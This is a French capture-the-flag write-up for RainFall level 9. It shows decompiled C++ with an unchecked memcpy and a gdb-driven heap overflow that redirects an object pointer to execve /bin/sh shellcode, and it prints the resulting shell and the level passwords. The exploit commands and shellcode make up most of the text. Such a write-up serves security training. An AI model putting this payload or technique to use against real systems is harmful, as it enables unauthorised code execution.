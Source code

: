 # Level 9

pass : `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`

## Sources :
```cpp=
#include <string.h>

class N {  // ebp+0x8
public :
	char annotation[100];  // ebp+0x8 + 0x4 | size : 0x64 (0x68 - 0x4)
	int value;  // ebp+0x8 + 0x68

	N(int val) : value(val) {}  // 0x080486f6
	void	setAnnotation(char *str) {  // 0x0804870e
		int len = strlen(str);
		memcpy(annotation, str, len);
	}
	int		operator+(N const &rhs) {  // 0x0804873a
		return value + rhs.value;
	}
	int		operator-(N const &rhs) {  // 0x0804874e
		return value - rhs.value;
	}
};

int		main(int ac, char **av)
{
	if (ac <= 1)
		_exit(1);
	N *a = new N(5);  // esp+0x1c
	N *b = new N(6);  // esp+0x18

	N *c = a;  // esp+0x14
	N *d = b;  // esp+0x10

	c->setAnnotation(av[1]);
	return (*d + *c);
}
```

## Recherche :

Pour faire l'exploit, on va passer par le seul point d'entrée qu'on a, c'est à dire `av[1]`.
Aussi on voit dans l'assembleur que pour appeler `*d + *c`, il fait :
```asm=
mov    eax,DWORD PTR [esp+0x10]
mov    eax,DWORD PTR [eax]
mov    edx,DWORD PTR [eax]
```

On va donc essayé d'écire dans `EAX`.

Avec un `pattern create 130` et un `pattern search`, on s'apperçoit que `EAX` est écrit à partir de 108 caractères.

Aussi on va vouloir lancer un shellcode, qu'on va pouvoir remplir dans `c->annotation`.
Pour retrouver l'adresse de `c->annotation`, on peut faire une breakpoint dans `memcpy` et voir les arguments qu'on a :

```gdb
(gdb) b *0x08048510
Breakpoint 1 at 0x8048510
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x08048510 in memcpy@plt ()
(gdb) x/4x $esp
0xbffff6dc:     0x08048738      0x0804a00c      0xbffff905      0x00000004
```

`c->annotation` est donc `0x0804a00c`, c'est à dire notre 1er argument.

```
(gdb) r $(perl -e 'print "A"x(108)."\x0c\xa0\x04\x08"')
Starting program: /home/user/level9/level9 $(perl -e 'print "A"x(108)."\x0c\xa0\x04\x08"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Bien, on a fait notre saut, mais le petit problème, c'est que comme il fait deux fois ` mov    eax,DWORD PTR [eax]`, on est allé à l'adresse `0x41414141` ("AAAA").

On corrige ça en changeant le début par l'adresse suivante :
`\x10\xa0\x04\x08` et en diminuant de 4 la longeur.

Et maintenant on va chercher un shellcode sur internet, comme celui-ci qui fait 28 bytes&nbsp;:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```gdb
(gdb) r $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(108-4-28)."\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(108-4-28)."\x0c\xa0\x04\x08"')
process 7262 is executing new program: /bin/dash
$
```

Super !! Un prompt s'est affiché ! Il reste plus qu'à lancer ça en dehors de gdb :)

## Exploit :

```shell=
level9@RainFall:~$ ./level9 $(perl -e 'print "\x10\xa0\x04\x08"."\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "\x90"x(108-28 -4) . "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cd ../bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$
```
